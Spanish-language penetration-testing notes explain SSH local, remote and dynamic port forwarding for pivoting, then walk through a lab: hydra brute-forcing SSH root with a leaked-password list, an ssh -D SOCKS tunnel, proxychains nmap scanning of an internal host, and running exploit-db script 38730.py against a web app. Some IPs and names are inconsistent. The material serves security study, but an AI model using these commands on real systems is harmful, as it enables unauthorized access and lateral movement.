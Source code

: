 
SSH Tunneling es una técnica que utiliza Secure Shell (SHH) para crear túneles cifrados. Es una herramienta versátil que permite el acceso remoto, comunicación segura y sobrepasar firewalls o segmentación de redes.

En el contexto de pivoting, SSH tunneling se refiere a una técnica utilizada para utilizar conexiones a través de túneles seguros que permiten a los atacantes testear el acceso a otros sistemas.

LOCAL PORT FORWARDING:

- Redirige el trafico desde un puerto local en el sistema del cliente a un puerto específico en un sistema remoto.
- Casos de uso para Pivoting: Un forwarding de puerto local puede ser usado para conectar servicios internos en un sistema comprometido.

REMOTE PORT FORWARDING:

- Permite el tráfico desde un puerto en un sistema remoto a un puerto específico en un sistema local. Técnica importante para hace backdoor.
- Casos de uso Pivoting: El forwarding de puertos puede ser usado para crear un tunel que permite la conexión de sistemas remotos a una vía de recursos de un sistema comprometido.

DYNAMIC PORT FORWARDING:

- Crea un SOCKS proxy permitiendo un forwarding de los puertos flexibles basados en las peticiones del cliente. Es útil para varios tipos de tráfico a través de conexioes SSH.
- Caso de uso Pivoting: Puede ser usado para crear un proxy SOCKS, permitiendo un tunneling flexible.

## Ejemplo práctico:

Host víctima:
- Host1: 192.163.141.3
- Host2: 192.84.170.3

El primer paso sería realizar un escaneo de puertos:

![[Pasted image 20250310090222.png]]

Como podemos ver solo tiene el servicio de SSH, asi que vamos a hacer un ataque de fuerza bruta.

```bash
hydra -t 4 -l root -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-40.txt ssh://182.163.141.3
```

![[Pasted image 20250310090454.png]]

Tenemos el usuario root con passwd 1234567890. Ahora podemos logearnos como root en el sistema víctima.

```bash
ssh root@192.163.141.3
```

Una vez estemos dentro del host víctima lo que vamos a hacer es un  ``ifconfig`` para ver las interfaces de red que tiene el host

![[Pasted image 20250310090722.png]]

Parece que tiene otra red interesante. Vamos a observar la versión y puerto que tenemos de SOCKS.

```bash
cat /etc/proxychains.conf
```

![[Pasted image 20250310091048.png]]

Ahora vamos a crear un túnel dinámico mediante SSH que conecte con el puerto de SOCKS.

```bash
ssh root@192.163.141.3 -D 9050
```

Una vez autenticados es importante dejar la sesión abierta y abrir un nuevo tab. Podremos comprobar con el comando ``netstat`` que estemos con el puerto 9050 vinculados.

![[Pasted image 20250310091705.png]]

Vamos a escanear el segundo host.

```bash
proxychains nmap -sT -Pn 192.84.170.3
```

![[Pasted image 20250310091854.png]]

Para poder analizar el contenido web podemos utilizar el comando ``proxychains curl http://192.84.170.3``

![[Pasted image 20250310092108.png]]

Vemos que utiliza clipper que es un servicio vulnerable.

```bash
cp /usr/share/exploitdb/exploits/php/remote/38730.py
proxychains python 38730.py http://192.84.170.3 /clupper admin pasword
```


